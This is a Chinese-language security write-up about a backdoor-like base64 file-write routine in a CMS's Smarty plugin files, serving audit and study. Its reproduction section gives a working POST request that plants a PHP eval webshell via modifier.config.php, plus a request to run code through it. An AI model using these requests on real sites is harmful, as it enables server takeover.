



### 漏洞信息
- 漏洞公开时间: 2018/03/12
- 影响版本:V5.8
- 利用难度:1
- 挖掘难度:2.5

### 漏洞说明
此漏洞乍看起来像似黑客留下的后门，实则更有可能是厂商开发出来对付盗版的方法。由于在代码文件中存在一段base64编码的能够任意写入文件的代码，导致攻击者能够利用这个文件写入webshell。

### 漏洞分析
文件位于`lib/smarty/plugins/function.php`，代码如下：



对其中的代码直接进行base64编码之后，得到的主要代码如下所示：



对其中的主要部分进行了标注。接下来进行分析。
1. 对`$codelock_file`进行判断。如果不存在，则直接退出，这也就意味着我们不能直接利用这个代码，需要找到对`$codelock_file`已经定义了的文件才可以。
2. `@extract($_REQUEST);`典型的变量覆盖的问题。如此，那么接下来在此文件中的所有的变量如果没有进行初始化赋值，那么都能够被覆盖。
3. `$codelock_fp2 = @fopen("$codelock_filed/$codelock_enc", "wb");`创建文件。
4. `@fwrite($codelock_fp2, $codelock_masterdata);`写入文件。

通过分析，我们只要能够绕过对`$codelock_file`的校验，那么就能够写入webshell了。接下来的问题我们就需要找到对`$codelock_file`进行了定义同时引入了`function.php`的文件。

文件`lib/smarty/plugins/modifier.config.php`就符合上述的要求。



如此，整个漏洞利用就非常简单了。直接访问`modifier.config.php`,写入webshell即可。

### 漏洞复现
访问如下：
```
URL:http://localhost/lib/smarty/plugins/modifier.config.php
POST:codelock_filed=.&codelock_mastersize=3&codelock_act=3&codelock_enc=XiaoZe.php&codelock_masterdata=<?php @eval($_POST[X]);?>
``` 
即会在当前目录下生成内容为`<?php @eval($_POST[X]);?>`的`XiaoZe.php`文件。

访问：
```
URL:http://localhost/lib/smarty/plugins/Xiaoze.php
POST:X=phpinfo();
```
即可显示phpinfo信息，整个漏洞利用完成。

### 总结
这个问题其实和appcms那么后门程序类似。这些问题是不是可以给我们一个思路，在审计一个cms之前，先使用D盾工具对这些cms扫描一遍，看是否存在一句话文件。